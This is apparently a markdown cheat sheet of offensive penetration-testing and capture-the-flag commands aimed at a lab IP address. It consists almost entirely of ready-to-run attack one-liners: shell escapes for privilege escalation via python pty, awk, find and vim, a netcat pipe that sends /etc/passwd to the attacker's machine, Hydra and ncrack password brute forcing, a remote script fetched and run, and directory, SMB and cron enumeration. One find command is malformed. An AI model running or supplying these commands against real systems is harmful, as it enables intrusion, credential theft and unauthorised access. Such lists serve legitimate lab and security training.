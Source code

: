 ## Quick and Dirty Commands

For the following examples assume:

**Remote IP:** `10.37.129.11`

**Local IP:** `10.37.129.4`

##### Find a file with the a specified string
`cat /etc/* | grep FLAG2`

##### Grep only usernames from /etc/passwd
`cat /etc/passwd | grep -E '/home/|/root'`

##### Regex in Grep
`ls -al | grep '[a-z][0-9].jpeg'`

##### HEX to ASCII convert
`echo "46 4c 41 47" | xxd -r -ps`

##### Base64 Decode
`echo dmlldyBzb3VyY2UgO0QK | base64 -D`

##### Check webserver for things
`nikto -h 10.37.129.11`

##### Privilege escalation
`python -c 'import pty;pty.spawn("/bin/bash");'`

`awk 'BEGIN {system("/bin/sh")}'`

`find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;`

`echo os.system('/bin/bash')`

`/bin/sh -i`

```bash
## Editors
:set shell=/bin/bash
:shell
:! /bin/bash
```

##### Enumerate directories
`dirb http://10.37.129.11`

##### Enumerate Linux (Gets OS, host, shares, potential usernames)
`enum4linux -a 10.37.129.11`

##### FTP on custom port
`ftp -p 10.37.129.11 4200`

##### SSH on custom port
`ssh user@10.37.129.11 -p 22222`

##### Search for a package on the system
`rpm -qa | grep ftp`

##### Copy file over netcat | nc
Local Listener: `nc -l -p 2222 > passwd`

Remote Listener: `cat /etc/passwd | netcat 10.37.129.4 2222`

##### Copy file over SCP
```bash
$ scp -r -P 22 username@10.37.129.4:/home/whatever ~/<destination>
$ scp safe root@10.37.129.11:~/<destination>
```

##### Hydra quick user/password enumeration
`hydra -L /usr/share/wordlists/custom/usernamelist.txt -P /usr/share/wordlists/custom/passwordlist.txt -u -s 22 10.37.129.11 ssh -t 4`

##### NCRACK password enumeration and SSH crack
`ncrack -v –user <username> -P <password_list> ssh://10.37.129.11:22222`

##### Pull down linuxprivchecker.py and run
```bash
$ wget https://raw.githubusercontent.com/t04glovern/icu/master/tools/linuxprivchecker.py
$ python linuxprivchecker.py > linux_priv_check.txt
```

##### enum4linux ALL option
`enum4linux -a 10.37.129.11`

##### gzip extract
`tar -xzvf file.tar.gz`

##### wfuzz
`wfuzz -c -z file,/usr/share/wordlists/wfuzz/general/big.txt --hc 404 http://10.37.129.11/FUZZ.php`

##### curl download and use cookie
```
## Download
curl -L -v http://10.37.129.11/index.php -c cookies -b cookies

## Use
curl -v http://10.37.129.11/index.php -c cookies -b cookies
```

##### DNS quert using nslookup
```bash
## Any records
nslookup -q=any domain.com

## Just specific ones
nslookup -q=TXT site.domain.com
```

##### Job/Task exploits
```bash
## Display scheduled jobs for the specified user – Privileged command
crontab -l -u %username%

## Scheduled jobs overview (hourly, daily, monthly etc)
ls -la /etc/cron*

## What can ‘others’ write in /etc/cron* directories
ls -aRl /etc/cron* | awk '$1 ~ /w.$/' 2>/dev/null

## List of current tasks
top
```

##### Any mounted file-systems
```bash
## Mounted?
mount
df -h

## Unmounted?
cat /etc/fstab
```

##### smbclient scan
`smbclient -L 10.37.129.11`

##### smbclient connect
`smbclient '\\10.37.129.11\<sharename>'`

##### SMB share connect via web browser
`smb://10.37.129.11/<sharename>/`

##### Mount share from command line
`mount -t  smbfs -o username=<username> //<servername>/<sharename> /mnt/point/`

##### Windows related enum
```bash
net users
net localgroup Administrators
lusrmgr.msc
```
